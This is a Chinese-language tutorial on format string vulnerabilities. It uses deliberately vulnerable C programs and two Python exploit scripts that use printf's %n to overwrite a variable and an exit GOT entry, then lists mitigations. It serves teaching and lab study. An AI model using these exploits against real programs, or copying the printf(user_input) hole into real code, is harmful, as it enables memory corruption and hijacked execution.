










# 格式化字符串漏洞

## 格式化字符串漏洞利用原理

针对如下函数

```C
#include <stdio.h>

int printf(const char *format, ...);
int fprintf(FILE *stream, const char *format, ...);
int dprintf(int fd, const char *format, ...);
int sprintf(char *str, const char *format, ...);
int snprintf(char *str, size_t size, const char *format, ...);
```

进行函数调用时,先解析前面的 format 参数,遇到转换指示符之后,便在后边的参数中寻找

但如果不传递参数,便会认为 format 栈上面的数据就是传递的参数

例如

```C
//gcc -o printfx main.c -m32
#include <stdio.h>

void vuln()
{
    printf("%x %x %x %x");
}

int main(int argc, char **argv)
{
    vuln();
    return 0;
}
```

针对如上代码

查看其 vuln() 函数的汇编代码

printf() 函数调用前将字符串 "%x %x %x %x" 的地址 0x80484b0 当做参数入栈


然后在 printf() 函数的调用处设置断电



运行后,在断点处查看栈状态

发现字符串 "%x %x %x %x" 的地址 0x080484d0 在栈的最高处

往上依次是 0x00000003 0xf7e2d830 0x0804849b 0x00000001


查看最后的输出结果

最后的结果与入栈参数 "%x %x %x %x" 字符串的地址往上四个的值相同


我们可以得到最后结论,当 printf() 解析 format 字符串时,如果没有传递相应的参数,则 printf() 函数会认为传递了相应参数,按照栈轨迹依次向上解析

调用 printf() 函数的前一刻的栈状态如下

会将其他值,当做传入的参数



## printf(%n)改变程序的执行

针对如下代码,目标是利用 printf(string) 修改变量 target 的值来改变程序的运行

```C
// gcc -o strformat32 main.c -fno-stack-protector -m32
//  echo 0 > /proc/sys/kernel/randomize_va_space
#include <stdlib.h>
#include <unistd.h>
#include <stdio.h>
#include <string.h>

int target;

void vuln(char *string)
{
    printf(string);

    if (target)
    {
        printf("you have modified the target :)\n");
    }
}

int main(int argc, char **argv)
{
    vuln(argv[1]);
}
```

* 原理分析

printf 函数的定义如下,解析 format 字符串,如遇到 %x %d等,则在其后续的入栈参数中查找对应的值

```C
int printf(const char *format, ...);
```

但是对于如下使用方法,解析 format 时,遇到 %x,但是并没有传入后续的其对应的值,但是 printf 函数在解析时认为参数已入栈,就会输出其原本参数入栈位置处的值

```C
printf("%x");
```

效果可能如下


解析**format**时,如果调用者没有传递相应的参数,则**printf**在相应位置上继续读取


printf 存在 BUGS , %n 可能会引起将数据(%n 之前的字节数)写向内存

所以我们的方法是利用重复的 %x,使得 format 的长度刚好到达变量 format 地址处,然后利用 %n 向内存地址处写入值

printf(%n) 的作用是,将 %n 之前已经解析的字节长度,输入到 %n 所对应的参数中


如

```C
#include <stdio.h>

int main()
{
    int number = 0;
    printf("AAAA%n\n", &number);
    printf("%d\n", number);
    return 0;
}
```

执行结果

输出 %n 之前的字节长度 4



* 攻击过程

首先查看 vuln() 函数的汇编代码

并在 printf() 函数调用前设置断点



开始运行,并在断点处停止

可以看到栈顶的值是 0xffffce73 ,并确定该值是字符串的首地址

而此时 esp 的位置是 0xffffcb40

那么如果在解析 format 时,向栈的高地址前进

那么会遇到 0xffffce73

如果在字符串中填入 target 变量的地址,并正好将 printf(%n) 输出到 target 变量的地址处

则可成功覆盖 target 变量


调用 printf() 前一刻的栈状态如下



利用 objdump -t 查看 target 变量的地址 0x0804a024


利用一个较大值开始试探



找到合适的距离 184 ,使得最后一个输出的为 target 的地址



增加 %n,成功测试



## PLT 和 GOT

对程序段进行查看可以看到 PLT 和 GOT



* PLT(Procedure Linkage Table)

代码片段组成的，每个代码片段都跳转到GOT表中的一个具体的函数调用

* GOT(Global Offsets Table)

存储外部库函数的表

* 重定位


## printf(%n)修改GOT地址

针对如下代码,利用 printf(%n) 修改 exit 其对应的PLT表项中的GOT地址,使得执行 hello 函数

```C
// gcc -o strformat32 main.c -fno-stack-protector -m32
// echo 2 > /proc/sys/kernel/randomize_va_space
#include <stdlib.h>
#include <unistd.h>
#include <stdio.h>_
#include <string.h>

int target;

void hello()
{
    printf("code execution redirected! you win\n");
    _exit(1);
}

void vuln()
{
    char buffer[512];
    fgets(buffer, sizeof(buffer), stdin);
    printf(buffer);
    exit(1);
}

int main(int argc, char **argv)
{
    vuln();
}
```

* 攻击原理

ALSR 并不负责随机代码段和数据段的机制

PIE 负责代码段以及数据段的随机化工作,只有在开启 ASLR 之后,PIE 才会生效

在开启 ALSR 并且不开启 PIE 的前提下,我们利用 printf(%n) 存在的 BUGS 将 exit 中 PLT 表项的 GOT 地址修改为 hello() 函数的值

* 攻击过程

首先查看 exit 的 plt 表项中 got 地址和 hello 函数的地址




exit 的 plt 表项中 got 地址是 0x804a01c


hello 函数的地址是 0x80484eb

由于需要利用 printf(%n) 将 0x80484eb 值填充到地址 0x804a01c 处,但是不可能在 printf 中输入长度为 0x80484eb 的字符串,所以我们将填充分为两步填充低字节和填充高字节

针对低字节 0x84eb 对应十进制 34027,保证 %4$n 之前拥有 34027 字节,利用如下脚本的输出作为程序的输入

```PYTHON
#!/usr/bin/python2.7
import struct

HELLO = 0x80484eb
EXIT_PLT = 0x804a01c


def pad(s):
    return s + "X" * (512 - len(s))


exploit = ""
exploit += struct.pack("I", EXIT_PLT)
exploit += "AAAABBBBCCCC"
exploit += "%4$34011x" ;34011+16=34027
exploit += "%4$n"

print pad(exploit)
```

利用 printf("AAAA %x %x %x %x") 定位到 EXIT_PLT 将作为 printf 的第四个参数所以 %4$34011x %4$n


利用 GDB 查看脚本的输入后 0x804a01c 地址处的值,修改成功


在脚本上增加覆盖高字节部分,由于高字节部分的值为 0x0804,但是之前字符串的长度已经超过了这个长度,所以我们利用 0x10804 来截取其低四位得到

```PYTHON
#!/usr/bin/python2.7
import struct

HELLO = 0x80484eb
EXIT_PLT = 0x804a01c


def pad(s):
    return s + "X" * (512 - len(s))


exploit = ""
exploit += struct.pack("I", EXIT_PLT)
exploit += struct.pack("I", EXIT_PLT + 2)
exploit += "BBBBCCCC"
exploit += "%4$34011x"
exploit += "%4$n"
exploit += "%33562xx"
exploit += "%5$n"

print pad(exploit)
```

利用 GDB 查看脚本的输入后 0x804a01c 地址处的值,成功修改全四位

为 hello() 函数的地址


成功执行


## 格式化字符串的缓解策略

### 排除用户输入的格式化字符串

FIO30-C 排除用户输入的格式化字符串

### 限制字节写入

写入的字节数可以通过指定一个精度域作为 %s 转化规范的一部分进行控制

不使用

```C
sprintf(buffer, "Wrong command: %s\n", user);
```

而是使用

```C
sprintf(buffer, "Wrong command: %.495s\n", user);
```

精度域指定了针对 %s 转换所要写入的最大字节数

精度域为 495 确保了结果字符串可以容纳于 512 字节的缓冲区中

另外一种方法是使用 snprintf() 和 vsnprintf() 代替 sprintf() 和 vsprintf() ,这些函数指定了写入的最大字节数

### C11 附录 K 边界检查接口

```C
fprintf_s()
printf_s()
snprintf_s()
```

这些函数可以防止写内存,但是它们无法防止格式化字符串漏洞